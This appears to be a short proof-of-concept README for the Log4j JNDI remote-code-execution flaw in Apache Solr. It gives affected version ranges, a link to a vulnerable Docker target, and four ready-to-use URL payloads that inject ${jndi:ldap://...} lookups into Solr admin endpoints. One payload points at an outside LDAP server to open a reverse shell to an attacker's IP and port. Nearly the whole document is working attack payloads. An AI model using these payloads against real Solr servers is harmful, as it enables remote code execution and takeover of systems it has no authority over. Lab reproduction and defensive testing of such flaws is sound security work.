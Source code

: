 # Apache Solr log4j RCE

## Version

```
v7.4.0 <= Solr <= v7.7.3
v8.0.0 <= Solr < v8.11.1
```

## vulnerable app

```
https://github.com/cckuailong/reapoc/tree/main/2019/CVE-2019-17558/vultarget

docker-compose up -d
```

## Poc

```
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/9999}&wt=json
```

```
/solr/admin/cores?action=CREATE&name=$%7Bjndi:ldap://0.0.0.0/123%7D&wt=json
```

```
/solr/admin/info/system?_=${jndi:ldap://0.0.0.0/123}&wt=json
```

```
/solr/admin/cores?_=&action=&config=&dataDir=&instanceDir=${jndi:ldap://0.0.0.0/123}&name=&schema=&wt=
```

![](1.png)

P.S. Many log4j pocs in Solr, I got nearly 1000+ different pocs, so get others yourself